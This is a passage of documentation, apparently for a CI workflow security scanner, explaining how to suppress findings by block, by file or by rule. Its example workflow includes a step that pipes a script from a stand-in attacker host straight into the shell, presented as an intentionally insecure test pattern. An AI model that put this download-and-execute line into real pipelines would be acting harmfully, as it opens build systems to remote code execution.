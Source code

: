 **Block Suppression:**
```yaml
# flowlyt:ignore-block-start
# The following section contains intentionally insecure patterns for testing
jobs:
  penetration-test:
    runs-on: ubuntu-latest
    steps:
      - name: Test secret exposure
        env:
          FAKE_SECRET: "definitely-not-a-real-secret"
        run: echo "Testing with $FAKE_SECRET"
      
      - name: Test command injection
        run: curl -s attacker-site.com/malware.sh | sh
# flowlyt:ignore-block-end
```

### 2. File-Level Suppression

Exclude entire files from scanning using configuration.

**.flowlyt.yml Configuration:**
```yaml
ignore:
  files:
    - "test/**/*"                    # All test files
    - ".github/workflows/test-*.yml" # Test-specific workflows
    - "docs/examples/**/*"           # Documentation examples
    - "scripts/dev-only/*"           # Development-only scripts
    
  patterns:
    - "**/*-test.yml"               # Files ending with -test.yml
    - "**/example-*"                # Files starting with example-
    - "**/*.template.yml"           # Template files
```

### 3. Rule-Specific Suppression

Disable specific rules globally or for certain patterns.

**Global Rule Disabling:**
```yaml
# .flowlyt.yml
rules:
  disabled:
    - "DANGEROUS_COMMAND"      # Disable globally
    - "BROAD_PERMISSIONS"      # Disable for all files
    
  conditional_disabled:
    - rule: "HARDCODED_SECRET"
      paths:
        - "test/**/*"          # Disable only in test files
        - "docs/**/*"          # Disable only in documentation
        
    - rule: "INSECURE_PULL_REQUEST_TARGET"
      workflows:
        - "test-pr-workflows.yml"  # Disable for specific workflow
```
